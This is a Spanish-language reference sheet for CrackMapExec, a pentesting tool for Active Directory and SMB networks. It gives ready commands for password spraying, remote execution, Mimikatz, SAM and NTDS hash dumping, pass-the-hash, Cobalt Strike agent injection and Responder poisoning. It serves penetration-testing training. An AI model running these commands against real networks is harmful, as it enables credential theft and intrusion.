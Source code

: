 

CrackMapExec (CME) es una herramienta de post-explotación y enumeración para entornos de Active Directory y SMB. Es muy utilizada por pentesters y red teamers para ejecutar ataques basados en credenciales, listar usuarios y equipos, ejecutar comandos de manera remota y realizar enumeraciones detalladas en redes Windows. CME combina múltiples funcionalidades en una única herramienta, facilitando la administración y explotación de redes Windows.

## Funcionalidades de CrackMapExec

### 1. Enumeración de Información

- **Enumeración de Usuarios y Grupos**:
  - Listar todos los usuarios y grupos en un dominio.
  - **Ejemplo**: Enumerar todos los usuarios del dominio:

    ```bash
    crackmapexec smb <IP> -u <usuario> -p <password> --users
    ```

- **Enumeración de Máquinas**:
  - Identificar todas las máquinas y sistemas operativos en la red.
  - **Ejemplo**: Enumerar todas las máquinas en una subred:

    ```bash
    crackmapexec smb <RANGO_IP> --shares
    ```

- **Enumeración de Recursos Compartidos (Shares)**:
  - Listar todos los recursos compartidos (shares) en la red.
  - **Ejemplo**: Listar todos los recursos compartidos en una máquina específica:

    ```bash
    crackmapexec smb <IP> --shares
    ```

### 2. Validación de Credenciales

- **Comprobación de Credenciales**:
  - Verificar la validez de credenciales en múltiples máquinas dentro de un dominio.
  - **Ejemplo**: Probar una lista de usuarios y contraseñas contra una IP o rango de IPs:

    ```bash
    crackmapexec smb <RANGO_IP> -u users.txt -p passwords.txt
    ```

### 3. Ejecución Remota de Comandos

- **Ejecución de Comandos (PSExec)**:
  - Ejecutar comandos remotos utilizando métodos como PSExec, WMI, o SMB.
  - **Ejemplo**: Ejecutar un comando en una máquina remota usando PSExec:

    ```bash
    crackmapexec smb <IP> -u <usuario> -p <password> -x 'ipconfig /all'
    ```

- **Ejecución de Scripts y Binarios (Mimikatz)**:
  - Ejecutar scripts o binarios como Mimikatz en máquinas comprometidas.
  - **Ejemplo**: Ejecutar Mimikatz en un sistema remoto para obtener hashes de contraseñas:

    ```bash
    crackmapexec smb <IP> -u <usuario> -p <password> -M mimikatz
    ```

### 4. Dumping de Hashes y Credenciales

- **Extracción de Hashes SAM y LSA**:
  - Dumping de hashes SAM y LSA para obtener credenciales del sistema.
  - **Ejemplo**: Extraer hashes de la SAM de una máquina comprometida:

    ```bash
    crackmapexec smb <IP> -u <usuario> -p <password> --sam
    ```

- **Dumping de Credenciales de Active Directory**:
  - Dumping de credenciales de AD usando `DCSync`.
  - **Ejemplo**: Utilizar DCSync para obtener las credenciales de todos los usuarios de un dominio:

    ```bash
    crackmapexec smb <IP_DC> -u <usuario> -p <password> --ntds
    ```

### 5. Pivoting y Movimiento Lateral

- **Pass-the-Hash y Pass-the-Ticket**:
  - Realizar ataques Pass-the-Hash y Pass-the-Ticket para moverse lateralmente dentro del dominio.
  - **Ejemplo**: Utilizar un hash NTLM para autenticarse en una máquina:

    ```bash
    crackmapexec smb <IP> -u <usuario> -H <hash>
    ```

- **Lanzar Agentes de Cobalt Strike**:
  - Lanzar agentes de Cobalt Strike en máquinas comprometidas.
  - **Ejemplo**: Inyectar un agente de Cobalt Strike en memoria:

    ```bash
    crackmapexec smb <IP> -u <usuario> -p <password> -M cs
    ```

### 6. Combinación con Otras Herramientas

- **Mimikatz**:
  - CME permite ejecutar Mimikatz directamente en máquinas remotas para extraer credenciales.
  - **Ejemplo**: Ejecutar Mimikatz y extraer todos los hashes:

    ```bash
    crackmapexec smb <IP> -u <usuario> -p <password> -M mimikatz
    ```

- **Responder**:
  - CME puede combinarse con Responder para realizar ataques de envenenamiento de LLMNR y NBNS.
  - **Ejemplo**: Capturar credenciales con Responder mientras CME realiza consultas en la red.

    ```bash
    crackmapexec smb <RANGO_IP> --no-bruteforce --gen-relay-list targets.txt
    responder -I eth0 -r -d -w
    ```

- **Metasploit**:
  - CME se puede usar para lanzar exploits de Metasploit en máquinas comprometidas.
  - **Ejemplo**: Lanzar un exploit en una máquina remota desde Metasploit:

    ```bash
    use exploit/windows/smb/psexec
    set SMBUser <usuario>
    set SMBPass <password>
    set RHOST <IP>
    exploit
    ```

## Resumen de Comandos de CrackMapExec

| Funcionalidad                          | Comando                                                                                          | Descripción                                                                                  |
|----------------------------------------|-------------------------------------------------------------------------------------------------|----------------------------------------------------------------------------------------------|
| **Enumeración de Usuarios**            | `crackmapexec smb <IP> -u <usuario> -p <password> --users`                                      | Enumera todos los usuarios del dominio.                                                      |
| **Enumeración de Máquinas**            | `crackmapexec smb <RANGO_IP> --shares`                                                          | Enumera todas las máquinas en una subred y sus recursos compartidos.                         |
| **Enumeración de Shares**              | `crackmapexec smb <IP> --shares`                                                                | Lista todos los recursos compartidos en una máquina específica.                              |
| **Validación de Credenciales**         | `crackmapexec smb <RANGO_IP> -u users.txt -p passwords.txt`                                      | Verifica una lista de usuarios y contraseñas en múltiples máquinas.                          |
| **Ejecución de Comandos Remotos**      | `crackmapexec smb <IP> -u <usuario> -p <password> -x 'ipconfig /all'`                            | Ejecuta un comando remoto en una máquina usando PSExec.                                      |
| **Ejecución de Mimikatz**              | `crackmapexec smb <IP> -u <usuario> -p <password> -M mimikatz`                                   | Ejecuta Mimikatz para obtener credenciales.                                                  |
| **Dumping de Hashes SAM**              | `crackmapexec smb <IP> -u <usuario> -p <password> --sam`                                        | Extrae hashes SAM de una máquina comprometida.                                               |
| **Dumping de Credenciales AD (DCSync)**| `crackmapexec smb <IP_DC> -u <usuario> -p <password> --ntds`                                     | Extrae credenciales de Active Directory usando DCSync.                                       |
| **Pass-the-Hash**                      | `crackmapexec smb <IP> -u <usuario> -H <hash>`                                                  | Utiliza un hash NTLM para autenticarse en una máquina.                                       |
| **Inyección de Cobalt Strike**         | `crackmapexec smb <IP> -u <usuario> -p <password> -M cs`                                        | Inyecta un agente de Cobalt Strike en memoria de una máquina remota.                         |
| **Combinación con Responder**          | `crackmapexec smb <RANGO_IP> --no-bruteforce --gen-relay-list targets.txt`                      | Genera una lista de objetivos para realizar ataques de envenenamiento con Responder.         |
| **Integración con Metasploit**         | `use exploit/windows/smb/psexec; set SMBUser <usuario>; set SMBPass <password>; set RHOST <IP>` | Ejecuta un exploit en Metasploit para comprometer una máquina remota usando PSExec.          |
